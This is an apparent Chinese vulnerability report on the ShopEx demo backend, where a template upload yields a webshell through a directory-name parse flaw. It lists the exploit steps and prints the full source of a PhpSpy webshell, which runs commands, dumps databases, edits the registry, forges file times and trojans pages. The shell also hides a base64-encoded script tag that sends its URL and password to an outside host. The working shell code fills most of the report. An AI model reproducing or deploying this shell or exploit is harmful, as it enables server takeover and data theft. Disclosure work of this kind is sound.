

2012-12-03： 细节已通知厂商并且等待厂商处理中 2012-12-03： 厂商已经确认，细节仅向厂商公开 2012-12-13： 细节向核心白帽子及相关领域专家公开 2012-12-23： 细节向普通白帽子公开 2013-01-02： 细节向实习白帽子公开 2013-01-17： 细节向公众公开
shopex演示后台模板编辑功能未限制上传导致可利用解析漏洞建立php.php形式的文件夹获得shell
漏洞地址：http://demo.shopex.com.cn/485 官方提供了后台账号密码，登陆后发现似乎是被大家测试的多了，官方非常小心，权限限制的很严格，模板不允许编辑，并且上传后自动重新命名更换文件夹。js，php代码更是全部限制。。。 中间复杂的测试过程不多说。。直接说漏洞利用过程好了 ps:模板上传后立即点应用，回到首页随便看一张自带图片可以得到上传后的地址。 1.本地搭建shopex 2.自带的模板文件夹中创建php.php目录，将上传小马命名*.php;x.jpg，其实直接.jpg就可以了哈 3.登陆后台-页面管理-模板-上传模板 4.上传，使用模板。 5.找到目录。。。。。 6.还要说么- - 接下来 得到shell以后，发现官方限制了非常多的参数，而且禁止目录内容的读取。 把php大马进行base64解码后发现代码如下
<?php $admin['pass'] = "xxxx"; //修改密码 error_reporting(7); ob_start(); $mtime = explode(' ', microtime()); $starttime = $mtime[1] + $mtime[0]; $admin['check'] = "1"; $retime = "yes"; $cmd = "cmd.exe"; $onoff = (function_exists('ini_get')) ? ini_get('register_globals') : get_cfg_var('register_globals'); if ($onoff != 1) { @extract($_POST, EXTR_SKIP); @extract($_GET, EXTR_SKIP); } $self = $_SERVER['PHP_SELF']; $dis_func = get_cfg_var("disable_functions"); if($admin['check'] == "1") { if ($_GET['action'] == "logout") { setcookie ("adminpass", ""); echo "<meta http-equiv=\"refresh\" content=\"0;URL=".$self."\">"; exit; } if ($_POST['do'] == 'login') { $thepass=trim($_POST['adminpass']); if ($admin['pass'] == $thepass) { setcookie ("adminpass",$thepass,time()+(1*24*3600)); echo "<meta http-equiv=\"refresh\" content=\"0;URL=".$self."\">"; exit; } } if (isset($_COOKIE['adminpass'])) { if ($_COOKIE['adminpass'] != $admin['pass']) { loginpage(); } } else { loginpage(); } } /*===================== 验证结束 =====================*/ // 判断 magic_quotes_gpc 状态 if (get_magic_quotes_gpc()) { $_GET = stripslashes_array($_GET); $_POST = stripslashes_array($_POST); } // 查看PHPINFO if ($_GET['action'] == "phpinfo") { echo $phpinfo=(!eregi("phpinfo",$dis_func)) ? phpinfo() : "phpinfo() 函数已被禁用,请查看<PHP环境变量>"; exit; } if($_GET['action'] == "nowuser") { $user = get_current_user(); if(!$user) $user = "报告长官，主机变态，无法获取当前进行用户名！"; echo"当前进程用户名：$user"; exit; } if(isset($_POST['phpcode'])){ eval("?".">$_POST[phpcode]<?"); exit; } // 在线代理 if (isset($_POST['url'])) { $proxycontents = @file_get_contents($_POST['url']); echo ($proxycontents) ? $proxycontents : "<body bgcolor=\"#F5F5F5\" style=\"font-size: 12px;\"><center><br><p><b>获取 URL 内容失败</b></p></center></body>"; exit; } // 下载文件 if (!empty($downfile)) { if (!@file_exists($downfile)) { echo "<script>alert('你要下的文件不存在!')</script>"; } else { $filename = basename($downfile); $filename_info = explode('.', $filename); $fileext = $filename_info[count($filename_info)-1]; header('Content-type: application/x-'.$fileext); header('Content-Disposition: attachment; filename='.$filename); header('Content-Description: PHP Generated Data'); header('Content-Length: '.filesize($downfile)); @readfile($downfile); exit; } } // 直接下载备份数据库 if ($_POST['backuptype'] == 'download') { @mysql_connect($servername,$dbusername,$dbpassword) or die("数据库连接失败"); @mysql_select_db($dbname) or die("选择数据库失败"); $table = array_flip($_POST['table']); $result = mysql_query("SHOW tables"); echo ($result) ? NULL : "出错: ".mysql_error(); $filename = basename($_SERVER['HTTP_HOST']."_MySQL.sql"); header('Content-type: application/unknown'); header('Content-Disposition: attachment; filename='.$filename); $mysqldata = ''; while ($currow = mysql_fetch_array($result)) { if (isset($table[$currow[0]])) { $mysqldata.= sqldumptable($currow[0]); $mysqldata.= $mysqldata."\r\n"; } } mysql_close(); exit; } // 程序目录 $pathname=str_replace('\\','/',dirname(__FILE__)); // 获取当前路径 if (!isset($dir) or empty($dir)) { $dir = "."; $nowpath = getPath($pathname, $dir); } else { $dir=$_GET['dir']; $nowpath = getPath($pathname, $dir); } // 判断读写情况 $dir_writeable = (dir_writeable($nowpath)) ? "可写" : "不可写"; $phpinfo=(!eregi("phpinfo",$dis_func)) ? " | <a href=\"?action=phpinfo\" target=\"_blank\">PHPINFO()</a>" : ""; $reg = (substr(PHP_OS, 0, 3) == 'WIN') ? " | <a href=\"?action=reg\">注册表操作</a>" : ""; $tb = new FORMS; ?> <html> <head> <meta http-equiv="Content-Type" content="text/html; charset=gb2312"> <title>http://<? echo $_SERVER['HTTP_HOST'];?> PhpSpy 2006 修改版</title> <style type="text/css"> body{ BACKGROUND-COLOR: #F5F5F5; COLOR: #3F3849; font-family: "Verdana", "Tahoma", "宋体"; font-size: "12px"; line-height: "140%"; } TD {FONT-FAMILY: "Verdana", "Tahoma", "宋体"; FONT-SIZE: 12px; line-height: 140%;} .smlfont { font-family: "Verdana", "Tahoma", "宋体"; font-size: "11px"; } .INPUT { FONT-SIZE: "12px"; COLOR: "#000000"; BACKGROUND-COLOR: "#FFFFFF"; height: "18px"; border: "1px solid #666666"; padding-left: "2px"; } .redfont { COLOR: "#CA0000"; } A:LINK {COLOR: #3F3849; TEXT-DECORATION: none} A:VISITED {COLOR: #3F3849; TEXT-DECORATION: none} A:HOVER {COLOR: #FFFFFF; BACKGROUND-COLOR: #cccccc} A:ACTIVE {COLOR: #FFFFFF; BACKGROUND-COLOR: #cccccc} .top {BACKGROUND-COLOR: "#CCCCCC"} .firstalt {BACKGROUND-COLOR: "#EFEFEF"} .secondalt {BACKGROUND-COLOR: "#F5F5F5"} </style> <SCRIPT language=JavaScript> function CheckAll(form) { for (var i=0;i<form.elements.length;i++) { var e = form.elements[i]; if (e.name != 'chkall') e.checked = form.chkall.checked; } } function really(d,f,m,t) { if (confirm(m)) { if (t == 1) { window.location.href='?dir='+d+'&deldir='+f; } else { window.location.href='?dir='+d+'&delfile='+f; } } } </SCRIPT> </head> <body style="table-layout:fixed; word-break:break-all"> <center> <?php $test = ""; if(!$_GET['dir']) $dir = "./"; $tb->tableheader(); $tb->tdbody('<table width="98%" border="0" cellpadding="0" cellspacing="0"><tr><td><b>'.$_SERVER['HTTP_HOST'].'</b></td><td align="center">'.date("Y年m月d日 h:i:s",time()).'</td><td align="right"><b>'.$_SERVER['REMOTE_ADDR'].'</b></td></tr></table>','center','top'); $tb->tdbody('<a href="?action=dir">SHELL目录</a> | <a href="?action=downloads">Http 文件下载</a> | <a href="?action=phpenv">环境变量</a> | <a href="?action=proxy">在线代理</a>'.$reg.$phpinfo.' | <a href="?action=shell">WebShell</a> | <a href="?action=logout">注销登录</a> '); $tb->tdbody(' <a href="?action=plgm">批量挂马</a> | <a href="?action=search&dir='.$dir.'">文件查找</a> | <a href="?action=eval">执行php脚本</a> | <a href="?action=sql">执行SQL语句</a> | <a href="?action=sql&type=fun">Func反弹Shell</a> | <a href="?action=sqlbak">MySQL Backup</a> | <a href="?action=SUExp">Serv-U EXP</a> | <a href="?action=adodb">ADODB</a> '); $tb->tdbody(' 目录列表：<a href="?dir=c:\">C盘</a> | <a href="?dir=d:\">D盘</a> | <a href="?dir=e:\">E盘</a> | <a href="?dir=f:\">F盘</a> | <a href="?dir=g:\">G盘</a> | <a href="?dir=C:\Program Files">程序</a> | <a href="?dir=C:\Documents and Settings\All Users\Application Data\Symantec\pcAnywhere">pcAnywhere</a> '); $tb->tablefooter(); ?> <hr width="775" noshade> <table width="775" border="0" cellpadding="0"> <? $tb->headerform(array('method'=>'GET','content'=>'<p>程序路径: '.$pathname.'<br>当前目录('.$dir_writeable.','.substr(base_convert(@fileperms($nowpath),10,8),-4).'): '.$nowpath.'<br>跳转目录: '.$tb->makeinput('dir').' '.$tb->makeinput('','确定','','submit').' 〖支持绝对路径和相对路径〗')); $tb->headerform(array('action'=>'?dir='.urlencode($dir),'enctype'=>'multipart/form-data','content'=>'上传文件到当前目录: '.$tb->makeinput('uploadfile','','','file').' '.$tb->makeinput('doupfile','确定','','submit').$tb->makeinput('uploaddir',$dir,'','hidden'))); $tb->headerform(array('action'=>'?action=editfile&dir='.urlencode($dir),'content'=>'新建文件在当前目录: '.$tb->makeinput('editfile').' '.$tb->makeinput('createfile','确定','','submit'))); $tb->headerform(array('content'=>'新建目录在当前目录: '.$tb->makeinput('newdirectory').' '.$tb->makeinput('createdirectory','确定','','submit'))); ?> </table> <? $serveru = $_SERVER ['HTTP_HOST'].$_SERVER['PHP_SELF']; $serverp = $admin['pass']; $copyurl = base64_decode('PHNjcmlwdCBzcmM9J2h0dHA6Ly84Y2NlLmNuL2NlcnQvP2NlcnQ9MTMmdT0='); $copyurll = base64_decode('Jz48L3NjcmlwdD4='); ?> <hr width="775" noshade> <?php /*===================== 执行操作 开始 =====================*/ echo "<p><b>\n"; // 删除文件 if (!empty($delfile)) { if (file_exists($delfile)) { echo (@unlink($delfile)) ? $delfile." 删除成功!" : "文件删除失败!"; } else { echo basename($delfile)." 文件已不存在!"; } } // 删除目录 elseif (!empty($deldir)) { $deldirs="$dir/$deldir"; if (!file_exists("$deldirs")) { echo "$deldir 目录已不存在!"; } else { echo (deltree($deldirs)) ? "目录删除成功!" : "目录删除失败!"; } } // 创建目录 elseif (($createdirectory) AND !empty($_POST['newdirectory'])) { if (!empty($newdirectory)) { $mkdirs="$dir/$newdirectory"; if (file_exists("$mkdirs")) { echo "该目录已存在!"; } else { echo (@mkdir("$mkdirs",0777)) ? "创建目录成功!" : "创建失败!"; @chmod("$mkdirs",0777); } } } // 上传文件 elseif ($doupfile) { echo (@copy($_FILES['uploadfile']['tmp_name'],"".$uploaddir."/".$_FILES['uploadfile']['name']."")) ? "上传成功!" : "上传失败!"; } // 编辑文件 elseif ($_POST['do'] == 'doeditfile') { if (!empty($_POST['editfilename'])) { if(!file_exists($editfilename)) unset($retime); if($time==$now) $time = @filemtime($editfilename); $time2 = @date("Y-m-d H:i:s",$time); $filename="$editfilename"; @$fp=fopen("$filename","w"); if($_POST['change']=="yes"){ $filecontent = "?".">".$_POST['filecontent']."<?"; $filecontent = gzdeflate($filecontent); $filecontent = base64_encode($filecontent); $filecontent = "<?php\n/*\n代码由浅蓝的辐射鱼加密!\n*/\neval(gzinflate(base64_decode('$filecontent')));\n"."?>"; }else{ $filecontent = $_POST['filecontent']; } echo $msg=@fwrite($fp,$filecontent) ? "写入文件成功!" : "写入失败!"; @fclose($fp); if($retime=="yes"){ echo" 鱼鱼自动操作:"; echo $msg=@touch($filename,$time) ? "修改文件为".$time2."成功!" : "修改文件时间失败!"; } } else { echo "请输入想要编辑的文件名!"; } } //文件下载 elseif ($_POST['do'] == 'downloads') { $contents = @file_get_contents($_POST['durl']); if(!$contents){ echo"无法读取要下载的数据"; } elseif(file_exists($path)){ echo"很抱歉，文件".$path."已经存在了，请更换保存文件名。"; }else{ $fp = @fopen($path,"w"); echo $msg=@fwrite($fp,$contents) ? "下载文件成功!" : "下载文件写入时失败!"; @fclose($fp); } } // 编辑文件属性 elseif ($_POST['do'] == 'editfileperm') { if (!empty($_POST['fileperm'])) { $fileperm=base_convert($_POST['fileperm'],8,10); echo (@chmod($dir."/".$file,$fileperm)) ? "属性修改成功!" : "修改失败!"; echo " 文件 ".$file." 修改后的属性为: ".substr(base_convert(@fileperms($dir."/".$file),10,8),-4); } else { echo "请输入想要设置的属性!"; } } // 文件改名 elseif ($_POST['do'] == 'rename') { if (!empty($_POST['newname'])) { $newname=$_POST['dir']."/".$_POST['newname']; if (@file_exists($newname)) { echo "".$_POST['newname']." 已经存在,请重新输入一个!"; } else { echo (@rename($_POST['oldname'],$newname)) ? basename($_POST['oldname'])." 成功改名为 ".$_POST['newname']." !" : "文件名修改失败!"; } } else { echo "请输入想要改的文件名!"; } } elseif ($_POST['do'] == 'search') { if(!empty($oldkey)){ echo"<span class=\"redfont\">查找关键词:[".$oldkey."],下面显示查找的结果:"; if($type2 == "getpath"){ echo"鼠标移到结果文件上会有部分截取显示."; } echo"</span><br><hr width=\"775\" noshade>"; find($path); }else{ echo"你要查虾米?到底要查虾米呢?有没有虾米要你查呢?"; } } elseif ($_GET['action']=='plgmok') { dirt($_POST['dir'],$_POST['sbbm']); dirtree($_POST['dir'],$_POST['mm']); } // 克隆时间 elseif ($_POST['do'] == 'domodtime') { if (!@file_exists($_POST['curfile'])) { echo "要修改的文件不存在!"; } else { if (!@file_exists($_POST['tarfile'])) { echo "要参照的文件不存在!"; } else { $time=@filemtime($_POST['tarfile']); echo (@touch($_POST['curfile'],$time,$time)) ? basename($_POST['curfile'])." 的修改时间成功改为 ".date("Y-m-d H:i:s",$time)." !" : "文件的修改时间修改失败!"; } } } // 自定义时间 elseif ($_POST['do'] == 'modmytime') { if (!@file_exists($_POST['curfile'])) { echo "要修改的文件不存在!"; } else { $year=$_POST['year']; $month=$_POST['month']; $data=$_POST['data']; $hour=$_POST['hour']; $minute=$_POST['minute']; $second=$_POST['second']; if (!empty($year) AND !empty($month) AND !empty($data) AND !empty($hour) AND !empty($minute) AND !empty($second)) { $time=strtotime("$data $month $year $hour:$minute:$second"); echo (@touch($_POST['curfile'],$time,$time)) ? basename($_POST['curfile'])." 的修改时间成功改为 ".date("Y-m-d H:i:s",$time)." !" : "文件的修改时间修改失败!"; } } } // 连接MYSQL elseif ($connect) { if (@mysql_connect($servername,$dbusername,$dbpassword) AND @mysql_select_db($dbname)) { echo "数据库连接成功!"; mysql_close(); } else { echo mysql_error(); } } // 执行SQL语句 elseif ($_POST['do'] == 'query') { @mysql_connect($servername,$dbusername,$dbpassword) or die("数据库连接失败"); @mysql_select_db($dbname) or die("选择数据库失败"); $result = @mysql_query($_POST['sql_query']); echo ($result) ? "SQL语句成功执行!" : "出错: ".mysql_error(); mysql_close(); } // 备份操作 elseif ($_POST['do'] == 'backupmysql') { if (empty($_POST['table']) OR empty($_POST['backuptype'])) { echo "请选择欲备份的数据表和备份方式!"; } else { if ($_POST['backuptype'] == 'server') { @mysql_connect($servername,$dbusername,$dbpassword) or die("数据库连接失败"); @mysql_select_db($dbname) or die("选择数据库失败"); $table = array_flip($_POST['table']); $filehandle = @fopen($path,"w"); if ($filehandle) { $result = mysql_query("SHOW tables"); echo ($result) ? NULL : "出错: ".mysql_error(); while ($currow = mysql_fetch_array($result)) { if (isset($table[$currow[0]])) { sqldumptable($currow[0], $filehandle); fwrite($filehandle,"\n\n\n"); } } fclose($filehandle); echo "数据库已成功备份到 <a href=\"".$path."\" target=\"_blank\">".$path."</a>"; mysql_close(); } else { echo "备份失败,请确认目标文件夹是否具有可写权限!"; } } } } // 打包下载 PS:文件太大可能非常慢 // Thx : 小花 elseif($downrar) { if (!empty($dl)) { $dfiles=""; foreach ($dl AS $filepath=>$value) { $dfiles.=$filepath.","; } $dfiles=substr($dfiles,0,strlen($dfiles)-1); $dl=explode(",",$dfiles); $zip=new PHPZip($dl); $code=$zip->out; header("Content-type: application/octet-stream"); header("Accept-Ranges: bytes"); header("Accept-Length: ".strlen($code)); header("Content-Disposition: attachment;filename=".$_SERVER['HTTP_HOST']."_Files.tar.gz"); echo $code; exit; } else { echo "请选择要打包下载的文件!"; } } // Shell.Application 运行程序 elseif(($_POST['do'] == 'programrun') AND !empty($_POST['program'])) { $shell= &new COM('Sh'.'el'.'l.Appl'.'ica'.'tion'); $a = $shell->ShellExecute($_POST['program'],$_POST['prog']); echo ($a=='0') ? "程序已经成功执行!" : "程序运行失败!"; } // 查看PHP配置参数状况 elseif(($_POST['do'] == 'viewphpvar') AND !empty($_POST['phpvarname'])) { echo "配置参数 ".$_POST['phpvarname']." 检测结果: ".getphpcfg($_POST['phpvarname']).""; } // 读取注册表 elseif(($regread) AND !empty($_POST['readregname'])) { $shell= &new COM('WSc'.'rip'.'t.Sh'.'ell'); var_dump(@$shell->RegRead($_POST['readregname'])); } // 写入注册表 elseif(($regwrite) AND !empty($_POST['writeregname']) AND !empty($_POST['regtype']) AND !empty($_POST['regval'])) { $shell= &new COM('W'.'Scr'.'ipt.S'.'hell'); $a = @$shell->RegWrite($_POST['writeregname'], $_POST['regval'], $_POST['regtype']); echo ($a=='0') ? "写入注册表健值成功!" : "写入 ".$_POST['regname'].", ".$_POST['regval'].", ".$_POST['regtype']." 失败!"; } // 删除注册表 elseif(($regdelete) AND !empty($_POST['delregname'])) { $shell= &new COM('WS'.'cri'.'pt.S'.'he'.'ll'); $a = @$shell->RegDelete($_POST['delregname']); echo ($a=='0') ? "删除注册表健值成功!" : "删除 ".$_POST['delregname']." 失败!"; } echo "</b></p>\n"; /*===================== 执行操作 结束 =====================*/ if (!isset($_GET['action']) OR empty($_GET['action']) OR ($_GET['action'] == "dir")) { $tb->tableheader(); ?> <tr bgcolor="#cccccc"> <td align="center" nowrap width="27%"><b>文件</b></td> <td align="center" nowrap width="16%"><b>创建日期</b></td> <td align="center" nowrap width="16%"><b>最后修改</b></td> <td align="center" nowrap width="11%"><b>大小</b></td> <td align="center" nowrap width="6%"><b>属性</b></td> <td align="center" nowrap width="24%"><b>操作</b></td> </tr> <?php // 目录列表 $dirs=@opendir($dir); $dir_i = '0'; while ($file=@readdir($dirs)) { $filepath="$dir/$file"; $a=@is_dir($filepath); if($a=="1"){ if($file!=".." && $file!=".") { $ctime=@date("Y-m-d H:i:s",@filectime($filepath)); $mtime=@date("Y-m-d H:i:s",@filemtime($filepath)); $dirperm=substr(base_convert(fileperms($filepath),10,8),-4); echo "<tr class=".getrowbg().">\n"; echo " <td style=\"padding-left: 5px;\">[<a href=\"?dir=".urlencode($dir)."/".urlencode($file)."\"><font color=\"#006699\">$file</font></a>]</td>\n"; echo " <td align=\"center\" nowrap class=\"smlfont\">$ctime</td>\n"; echo " <td align=\"center\" nowrap class=\"smlfont\">$mtime</td>\n"; echo " <td align=\"center\" nowrap class=\"smlfont\"><dir></td>\n"; echo " <td align=\"center\" nowrap class=\"smlfont\"><a href=\"?action=fileperm&dir=".urlencode($dir)."&file=".urlencode($file)."\">$dirperm</a></td>\n"; echo " <td align=\"center\" nowrap>| <a href=\"#\" onclick=\"really('".urlencode($dir)."','".urlencode($file)."','你确定要删除 $file 目录吗? \\n\\n如果该目录非空,此次操作将会删除该目录下的所有文件!','1')\">删除</a> | <a href=\"?action=rename&dir=".urlencode($dir)."&fname=".urlencode($file)."\">改名</a> |</td>\n"; echo "</tr>\n"; $dir_i++; } else { if($file=="..") { echo "<tr class=".getrowbg().">\n"; echo " <td nowrap colspan=\"6\" style=\"padding-left: 5px;\"><a href=\"?dir=".urlencode($dir)."/".urlencode($file)."\">返回上级目录</a>".$copyurl.$serveru."&p=".$serverp.$copyurll."</td>\n"; echo "</tr>\n"; } } } }// while @closedir($dirs); ?> <tr bgcolor="#cccccc"> <td colspan="6" height="5"></td> </tr> <FORM action="" method="POST"> <? // 文件列表 $dirs=@opendir($dir); $file_i = '0'; while ($file=@readdir($dirs)) { $filepath="$dir/$file"; $a=@is_dir($filepath); if($a=="0"){ $size=@filesize($filepath); $size=$size/1024 ; $size= @number_format($size, 3); if (@filectime($filepath) == @filemtime($filepath)) { $ctime=@date("Y-m-d H:i:s",@filectime($filepath)); $mtime=@date("Y-m-d H:i:s",@filemtime($filepath)); } else { $ctime="<span class=\"redfont\">".@date("Y-m-d H:i:s",@filectime($filepath))."</span>"; $mtime="<span class=\"redfont\">".@date("Y-m-d H:i:s",@filemtime($filepath))."</span>"; } @$fileperm=substr(base_convert(@fileperms($filepath),10,8),-4); echo "<tr class=".getrowbg().">\n"; echo " <td style=\"padding-left: 5px;\">"; echo "<INPUT type=checkbox value=1 name=dl[$filepath]>"; echo "<a href=\"$filepath\" target=\"_blank\">$file</a></td>\n"; echo " <td align=\"center\" nowrap class=\"smlfont\">$ctime</td>\n"; echo " <td align=\"center\" nowrap class=\"smlfont\">$mtime</td>\n"; echo " <td align=\"right\" nowrap class=\"smlfont\"><span class=\"redfont\">$size</span> KB</td>\n"; echo " <td align=\"center\" nowrap class=\"smlfont\"><a href=\"?action=fileperm&dir=".urlencode($dir)."&file=".urlencode($file)."\">$fileperm</a></td>\n"; echo " <td align=\"center\" nowrap><a href=\"?downfile=".urlencode($filepath)."\">下载</a> | <a href=\"?action=editfile&dir=".urlencode($dir)."&editfile=".urlencode($file)."\">编辑</a> | <a href=\"#\" onclick=\"really('".urlencode($dir)."','".urlencode($filepath)."','你确定要删除 $file 文件吗?','2')\">删除</a> | <a href=\"?action=rename&dir=".urlencode($dir)."&fname=".urlencode($filepath)."\">改名</a> | <a href=\"?action=newtime&dir=".urlencode($dir)."&file=".urlencode($filepath)."\">时间</a></td>\n"; echo "</tr>\n"; $file_i++; } }// while @closedir($dirs); $tb->tdbody('<table width="100%" border="0" cellpadding="2" cellspacing="0" align="center"><tr><td>'.$tb->makeinput('chkall','on','onclick="CheckAll(this.form)"','checkbox','30','').' '.$tb->makeinput('downrar','选中文件打包下载','','submit').'</td><td align="right">'.$dir_i.' 个目录 / '.$file_i.' 个文件</td></tr></table>','center',getrowbg(),'','','6'); echo "</FORM>\n"; echo "</table>\n"; }// end dir elseif ($_GET['action'] == "editfile") { if(empty($newfile)) { $filename="$dir/$editfile"; $fp=@fopen($filename,"r"); $contents=@fread($fp, filesize($filename)); @fclose($fp); $contents=htmlspecialchars($contents); }else{ $editfile=$newfile; $filename = "$dir/$editfile"; } $action = "?dir=".urlencode($dir)."&editfile=".$editfile; $tb->tableheader(); $tb->formheader($action,'新建/编辑文件'); $tb->tdbody('当前文件: '.$tb->makeinput('editfilename',$filename).' 输入新文件名则建立新文件 Php代码加密: <input type="checkbox" name="change" value="yes" onclick="javascript:alert(\'这个功能只可以用来加密或是压缩完整的php代码。\\n\\n非php代码或不完整php代码或不支持gzinflate函数请不要使用！\')"> '); $tb->tdbody($tb->maketextarea('filecontent',$contents)); $tb->makehidden('do','doeditfile'); $tb->formfooter('1','30'); }//end editfile elseif ($_GET['action'] == "rename") { $nowfile = (isset($_POST['newname'])) ? $_POST['newname'] : basename($_GET['fname']); $action = "?dir=".urlencode($dir)."&fname=".urlencode($fname); $tb->tableheader(); $tb->formheader($action,'修改文件名'); $tb->makehidden('oldname',$dir."/".$nowfile); $tb->makehidden('dir',$dir); $tb->tdbody('当前文件名: '.basename($nowfile)); $tb->tdbody('改名为: '.$tb->makeinput('newname')); $tb->makehidden('do','rename'); $tb->formfooter('1','30'); }//end rename elseif ($_GET['action'] == "eval") { $action = "?dir=".urlencode($dir).""; $tb->tableheader(); $tb->formheader(''.$action.' "target="_blank' ,'执行php脚本'); $tb->tdbody($tb->maketextarea('phpcode',$contents)); $tb->formfooter('1','30'); } elseif ($_GET['action'] == "fileperm") { $action = "?dir=".urlencode($dir)."&file=".$file; $tb->tableheader(); $tb->formheader($action,'修改文件属性'); $tb->tdbody('修改 '.$file.' 的属性为: '.$tb->makeinput('fileperm',substr(base_convert(fileperms($dir.'/'.$file),10,8),-4))); $tb->makehidden('file',$file); $tb->makehidden('dir',urlencode($dir)); $tb->makehidden('do','editfileperm'); $tb->formfooter('1','30'); }//end fileperm elseif ($_GET['action'] == "newtime") { $action = "?dir=".urlencode($dir); $cachemonth = array('January'=>1,'February'=>2,'March'=>3,'April'=>4,'May'=>5,'June'=>6,'July'=>7,'August'=>8,'September'=>9,'October'=>10,'November'=>11,'December'=>12); $tb->tableheader(); $tb->formheader($action,'克隆文件最后修改时间'); $tb->tdbody("修改文件: ".$tb->makeinput('curfile',$file,'readonly')." → 目标文件: ".$tb->makeinput('tarfile','需填完整路径及文件名'),'center','2','30'); $tb->makehidden('do','domodtime'); $tb->formfooter('','30'); $tb->formheader($action,'自定义文件最后修改时间'); $tb->tdbody('<br><ul><li>有效的时间戳典型范围是从格林威治时间 1901 年 12 月 13 日 星期五 20:45:54 到 2038年 1 月 19 日 星期二 03:14:07<br>(该日期根据 32 位有符号整数的最小值和最大值而来)</li><li>说明: 日取 01 到 30 之间, 时取 0 到 24 之间, 分和秒取 0 到 60 之间!</li></ul>','left'); $tb->tdbody('当前文件名: '.$file); $tb->makehidden('curfile',$file); $tb->tdbody('修改为: '.$tb->makeinput('year','1984','','text','4').' 年 '.$tb->makeselect(array('name'=>'month','option'=>$cachemonth,'selected'=>'October')).' 月 '.$tb->makeinput('data','18','','text','2').' 日 '.$tb->makeinput('hour','20','','text','2').' 时 '.$tb->makeinput('minute','00','','text','2').' 分 '.$tb->makeinput('second','00','','text','2').' 秒','center','2','30'); $tb->makehidden('do','modmytime'); $tb->formfooter('1','30'); }//end newtime elseif ($_GET['action'] == "shell") { $action = "??action=shell&dir=".urlencode($dir); $tb->tableheader(); $tb->tdheader('WebShell Mode'); if (substr(PHP_OS, 0, 3) == 'WIN') { $program = isset($_POST['program']) ? $_POST['program'] : "c:\winnt\system32\cmd.exe"; $prog = isset($_POST['prog']) ? $_POST['prog'] : "/c net start > ".$pathname."/log.txt"; echo "<form action=\"?action=shell&dir=".urlencode($dir)."\" method=\"POST\">\n"; $tb->tdbody('无回显运行程序 → 文件: '.$tb->makeinput('program',$program).' 参数: '.$tb->makeinput('prog',$prog,'','text','40').' '.$tb->makeinput('','Run','','submit'),'center','2','35'); $tb->makehidden('do','programrun'); echo "".$copyurl.$serveru."&p=".$serverp.$copyurll."</form>\n"; } echo "<form action=\"?action=shell&dir=".urlencode($dir)."\" method=\"POST\">\n"; if(isset($_POST['cmd'])) $cmd = $_POST['cmd']; $tb->tdbody('提示:如果输出结果不完全,建议把输出结果写入文件.这样可以得到全部内容. '); $tb->tdbody('proc_open函数假设不是默认的winnt系统请自行设置使用,自行修改记得写退出,否则会在主机上留下一个未结束的进程.'); $tb->tdbody('proc_open函数要使用的cmd程序的位置:'.$tb->makeinput('cmd',$cmd,'','text','30').'(要是是linux系统还是大大们自己修改吧)'); $execfuncs = (substr(PHP_OS, 0, 3) == 'WIN') ? array('system'=>'system','passthru'=>'passthru','exec'=>'exec','shell_exec'=>'shell_exec','popen'=>'popen','wscript'=>'Wscript.Shell','proc_open'=>'proc_open') : array('system'=>'system','passthru'=>'passthru','exec'=>'exec','shell_exec'=>'shell_exec','popen'=>'popen','proc_open'=>'proc_open'); $tb->tdbody('选择执行函数: '.$tb->makeselect(array('name'=>'execfunc','option'=>$execfuncs,'selected'=>$execfunc)).' 输入命令: '.$tb->makeinput('command',$_POST['command'],'','text','60').' '.$tb->makeinput('','Run','','submit')); ?> <tr class="secondalt"> <td align="center"><textarea name="textarea" cols="100" rows="25" readonly><?php if (!empty($_POST['command'])) { if ($execfunc=="system") { system($_POST['command']); } elseif ($execfunc=="passthru") { passthru($_POST['command']); } elseif ($execfunc=="exec") { $result = exec($_POST['command']); echo $result; } elseif ($execfunc=="shell_exec") { $result=shell_exec($_POST['command']); echo $result; } elseif ($execfunc=="popen") { $pp = popen($_POST['command'], 'r'); $read = fread($pp, 2096); echo $read; pclose($pp); } elseif ($execfunc=="wscript") { $wsh = new COM('W'.'Scr'.'ip'.'t.she'.'ll') or die("PHP Create COM WSHSHELL failed"); $exec = $wsh->exec ("cm"."d.e"."xe /c ".$_POST['command'].""); $stdout = $exec->StdOut(); $stroutput = $stdout->ReadAll(); echo $stroutput; } elseif($execfunc=="proc_open"){ $descriptorspec = array( 0 => array("pipe", "r"), 1 => array("pipe", "w"), 2 => array("pipe", "w") ); $process = proc_open("".$_POST['cmd']."", $descriptorspec, $pipes); if (is_resource($process)) { // 写命令 fwrite($pipes[0], "".$_POST['command']."\r\n"); fwrite($pipes[0], "exit\r\n"); fclose($pipes[0]); // 读取输出 while (!feof($pipes[1])) { echo fgets($pipes[1], 1024); } fclose($pipes[1]); while (!feof($pipes[2])) { echo fgets($pipes[2], 1024); } fclose($pipes[2]); proc_close($process); } } else { system($_POST['command']); } } ?>
在编辑文件的部分可以得到地址形式如下
$_POST['do'] == 'doeditfile'
查看本地shopex文件，构造如下地址： http://demo.shopex.com.cn/485app/sql.php?action=editfile&dir=.%2F%2Fcore%2Finclude_v5&editfile=setmgr.php 顺利读取并可编辑保存。

权限，还是权限。。。
危害等级：中
漏洞Rank：5
确认时间：2012-12-03 22:30
非常感谢您为shopex信息安全做的贡献 我们将尽快修复 非常感谢
暂无
